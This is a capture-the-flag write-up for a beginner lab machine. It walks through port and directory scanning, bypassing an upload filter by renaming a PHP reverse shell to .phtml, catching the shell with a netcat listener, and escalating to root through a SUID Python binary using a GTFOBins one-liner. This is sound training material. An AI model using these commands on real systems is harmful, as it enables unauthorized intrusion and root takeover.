


*A ctf for beginners, can you root me?*

**Difficulty:** Easy
## Reconnaissance

I started by scanning the top 1000 ports of the target IP with nmap using the default scripts and version detection. **10.10.80.208** is the IP address of my instance of the target machine.

**Command:** `nmap -sC -sV 10.10.80.208`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 20:15 EST
Nmap scan report for 10.10.80.208
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan shows two open ports: 
 * Port 22: Running an SSH server (OpenSSH 7.6p1 Ubuntu).
 * Port 80: Hosting a webpage titled "HackIT - Home" on Apache/2.4.29.

The results give us enough to answer the first three questions.
#### Scan the machine, how many ports are open?
This can be found from the nmap scan. Since the expected answer matches the number of open ports we found by scanning the top 1000, there is no need to further scan the full range of ports.
#### What version of Apache is running?
This can be seen in the `http-server-header` field of the scan results of port 80.
#### What service is running on port 22?
Refer to nmap scan to answer this question.
#### Find directories on the web server using the GoBuster tool. 
Now we need to enumerate the http service for any hidden directories using Gobuster. This will brute-force check using a wordlist of popular directory names. 

I used my Kali home lab for this room, so the command uses a relative path, but the wordlist can be found here on the attack box: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.80.208/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.80.208/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.80.208/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.80.208/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

#### What is the hidden directory?
Two noteworthy directories are `/uploads` and `/panel`. Visiting `http://10.10.80.208/uploads/` returns a page that appears to be the location where files uploaded to the server are stored. Visiting `http://10.10.80.208/panel/` shows us a file upload form and seems to be the hidden directory we are looking for.


I uploaded a `.jpeg` image to confirm that files uploaded through this form can be accessed in the `/uploads` path.


## Getting a shell
*Find a form to upload and get a reverse shell, and find the flag.*

I used Gobuster to find hints of which type of reverse shell I should upload by adding the following list of extensions for Gobuster to look for on the server: `txt,php,php3,phtml,py,html,php4,php5,js`. 

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt -x php,php3,php4,php5,phtml,py,js,html,txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,php3,phtml,py,html,php4,php5,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.phtml               (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.80.208/uploads/]                                       
/css                  (Status: 301) [Size: 312] [--> http://10.10.80.208/css/]                                           
/js                   (Status: 301) [Size: 311] [--> http://10.10.80.208/js/]                                            
Progress: 14977 / 2205610 (0.68%)^Z
zsh: suspended  gobuster dir -u http://10.10.80.208 -w  -x 
```

Since the scan returned `.php` and `.phtml` directories and files on the server I tried with the "php-reverse-shell" script by pentestmonkey. 

GitHub: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

AttackBox: `/usr/share/webshells/php/php-reverse-shell.php`

Remember to change the commented lines to your local IP and listening port in the file.


If you try to upload the reverse shell a message is displayed saying that `.php` are blocked from being uploaded to the server.




We can try to change the file extension to an alternate PHP extension that would still allow the shell to run, but may not have been restricted for uploads. I used some of these in the Gobuster scan: `php,php3,php4,php5,phtml` and we saw that `.phtml` was present on the server. So I tried renaming the reverse shell file to `php-reverse-shell.phtml`.


Changing the extension to `.phtml` allowed us to bypass the site file type restrictions and the file uploads successfully! And we can now see the file in the `/uploads` directory.



Before opening this file in our browser we need to start a netcat listener on our local machine to catch the reverse shell connection. This command needs to run with the same port specified in the `php-reverse-shell.phtml` file.

**Command:** `nc -lvnp 5555`

Executing the file through the browser initiates a reverse shell with `www-data` privileges. 


After looking around the server a bit I found the `user.txt` flag in the `var/www` directory.

## Privilege escalation
*Now that we have a shell, let's escalate our privileges to root.*
#### Search for files with SUID permission, which file is weird?
With the below command we can search for files that are owned by root and have SUID permissions.

**Command:** `find / -user root -perm /4000 2>/dev/null


Python showing up in this search is noteworthy because it will let us execute commands as the current user with root privileges.
#### Find a form to escalate your privileges.
GFTOBins provides a way to escape our privileges to root when python has SUID permissions: https://gtfobins.github.io/gtfobins/python/#suid

The command shown in GFTOBins will invoke `/bin/sh` with the `-p` flag, preserving the user ID. Since Python is SUID and owned by root, it gives us a shell with root privilege.

**Command:** `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`


#### root.txt
We can now access the root directory and find the root flag!
